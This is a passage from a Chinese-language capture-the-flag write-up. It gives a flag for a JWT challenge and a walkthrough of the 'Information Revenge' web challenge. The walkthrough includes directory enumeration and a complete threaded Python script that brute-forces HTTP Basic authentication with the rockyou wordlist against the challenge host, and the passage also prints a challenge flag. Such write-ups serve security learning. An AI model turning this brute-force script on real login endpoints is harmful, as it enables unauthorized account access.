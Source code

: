 5. 帶入access-token訪問`/flag_5a6d78685a323176636d567a5a574e31636d6c3065516f3d0a`
   ![image](https://hackmd.io/_uploads/HJDrikOSA.png)

> Flag: `FhCTF{N3w_ch4ll3ng3_1n_JWT_c95ceec4ea7d5414f10853e616da8e521f957e7627368a641e46fe74720b53b1}`

---

### Information Revenge

> {{< spoiler >}}
> ![Challenge](https://hackmd.io/_uploads/SkepiJOH0.png "500px")
> {{< /spoiler >}}
> 復仇之戰，我又來啦！  
> 這次，我帶回了更安全的方式，不信你能破！！  
> 好吧，其實我也沒底，畢竟以我的名字作為認證的擔保，破解可能還是可以的...  
> 畢竟我沒那麼多時間設定好強的認證了⋯  
> https://information-revenge.fhh4ck3rs.taipei/
>
> Author: CXPh03n1x

#### 題解

1. 這題form的name標籤如同`Information`一樣未被加上，在POST時不會有資料被送出。由此推測此題跟登入應該沒有關聯
2. 老樣子一樣`dirb`找到`/docs`路徑可被訪問，但是還缺少了帳號與密碼
3. 題目敘述中的「以我的名字作為認證的擔保」猜測使用者名稱是「`CXPh03n1x`」，密碼一樣爆破
4. 寫腳本，約2:30後可得出結果，密碼為「`Password1`」

   ```python {linenos=inline}
   import base64
   import requests
   import threading
   from queue import Queue
   from tqdm import tqdm
   
   with open('rockyou.txt', 'r') as f:
       rockyou = f.readlines()
   
   password_queue = Queue()
   for password in rockyou:
       password_queue.put(password)
   
   progress = tqdm(total=len(rockyou))
   
   
   def try_password():
       while not password_queue.empty():
           password = password_queue.get()
           auth = base64.b64encode(f"CXPh03n1x:{password.strip()}".encode()).decode()
           req = requests.get(
               'https://information-revenge.fhh4ck3rs.taipei/docs',
               headers={
                   'Authorization': f'Basic {auth}',
               },
           )
   
           if req.status_code != 401:
               print(f"[{req.status_code}] Found: {password.strip()}")
               print(req.text)
               with password_queue.mutex:
                   password_queue.queue.clear()
               break
   
           progress.update(1)
           password_queue.task_done()
   ```